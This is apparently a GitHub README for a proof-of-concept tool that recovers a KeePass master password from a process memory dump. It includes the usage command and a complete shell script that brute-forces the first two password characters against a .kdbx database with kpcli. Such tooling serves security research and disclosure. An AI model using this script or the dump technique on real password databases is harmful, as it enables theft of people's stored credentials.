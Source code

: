 # keepass-dump-masterkey

## Usage

`python3 poc.py <PathToDmp>`

## Preview

![](/img/preview.png)

As a reminder, the first character cannot be found in the dump, and for the second the script will only give you a few possibilities, in any case we recommend you to run the bruteforce on 2 chars with the script below 

```bash
#!/bin/sh
# Usage: ./keepass-pwn.sh Database.kdbx wordlist.txt (wordlist with 2 char)
while read i
do
    echo "Using password: \"$i\""
    echo "$i" | kpcli --kdb=$1 && exit 0
done < $2

```


>This script works very well in the case of a physical machine, for virtual machines it does not seem stable

Btw : the python script present in this project follows the reading of the following project: https://github.com/vdohney/keepass-password-dumper

Written by https://github.com/LeDocteurDesBits